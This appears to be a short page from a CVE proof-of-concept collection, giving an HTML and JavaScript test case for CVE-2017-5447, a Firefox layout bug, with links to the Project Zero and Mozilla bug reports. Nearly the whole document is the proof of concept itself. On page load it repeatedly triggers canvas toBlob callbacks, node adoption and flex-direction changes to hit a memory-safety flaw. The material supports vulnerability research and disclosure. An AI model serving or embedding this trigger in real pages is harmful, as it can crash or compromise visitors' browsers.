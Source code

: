 # CVE-2017-5447

## PoC

```html
<style>
.class1 { float: left; white-space: pre-line; }
.class2 { border-bottom-style: solid; font-face: Arial; font-size: 7ex; }
</style>
<script>
function go() {
  menuitem.appendChild(document.body.firstChild);
  canvas.toBlob(callback);
}
function callback() {
  var s = menu.style;
  s.setProperty("flex-direction", "row-reverse");
  option.scrollBy();
  document.implementation.createHTMLDocument("foo").adoptNode(progress);
  s.setProperty("flex-direction", "column");
  canvas.toBlob(callback);
}
</script>
aaaaaaaaaaaaaaaaaa
</head>
<body onload=go()>
<del class="class1">
<span class="class2">
<menu id="menu">
<menuitem>
</menu>
<menuitem id="menuitem">
<progress id="progress">
</del>
<ol dir="rtl">l+0</ol>
<canvas id="canvas">
<option id="option">
```

## Reference

+ [Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1160)
+ [Mozilla bug tracker](https://bugzilla.mozilla.org/show_bug.cgi?id=1343552)
